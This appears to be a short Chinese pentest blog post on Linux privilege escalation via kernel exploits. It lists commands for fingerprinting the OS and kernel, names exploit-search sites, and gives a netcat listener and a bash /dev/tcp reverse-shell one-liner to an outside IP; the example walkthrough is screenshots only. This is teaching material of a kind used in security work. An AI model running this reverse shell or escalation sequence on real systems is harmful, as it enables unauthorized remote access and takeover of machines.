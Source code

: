 +++
date = "2016-08-09T19:23:13+08:00"
description = ""
draft = false
tags = ["intranet"]
title = "Linux下系统漏洞提权"
topics = ["Pentest"]

+++

### 0x00 Linux下的提权
Linux下一般都是系统漏洞提权，分为以下几个步骤：
```
1. 获取系统版本号
2. 根据系统版本号找对应exp
3. 反弹shell
4. 尝试利用
```

### 0x01 提权
* 获取系统版本号
    * 获取发行版本
        * cat /etc/*-release
        * cat /etc/issue
        * cat /etc/lsb-release
        * cat /etc/redhat-release
    * 获取内核版本
        * cat /proc/version
        * uname -a
        * uname -mrs
        * rpm -q kernel
        * dmesg | grep Linux
        * ls /boot | grep vmlinuz
* 根据系统版本号找对应exp
    * http://www.exploit-db.com
    * http://1337day.com
    * http://www.securiteam.com
    * http://www.securityfocus.com
    * http://www.exploitsearch.net
    * http://metasploit.com/modules
    * http://securityreason.com
    * http://seclists.org/fulldisclosure
    * http://www.google.com
* 反弹shell
    * 本地：```nc -l -p 8888```
    * 目标机器：```/bin/bash -i >& /dev/tcp/10.10.10.10/8888 0>&1```
* 尝试利用

### 0x02 实例
* 得到系统版本号
![得到系统版本号](/img/post/privilge_escalation_linux_get_sys_version.png)

* 找对应exp
![找相应exp](/img/post/privilge_escalation_linux_search_exp.png)
![保存exp源码](/img/post/privilge_escalation_linux_exp_code.png)

* 反弹shell
![反弹shell](/img/post/privilge_escalation_linux_webshell_rebound_shell.png)

* 提权
![下载exp源码](/img/post/privilge_escalation_linux_write_exp_code.png)
![编译exp源码](/img/post/privilge_escalation_linux_compile_exp_code.png)
![运行exp](/img/post/privilge_escalation_linux_run_exp.png)
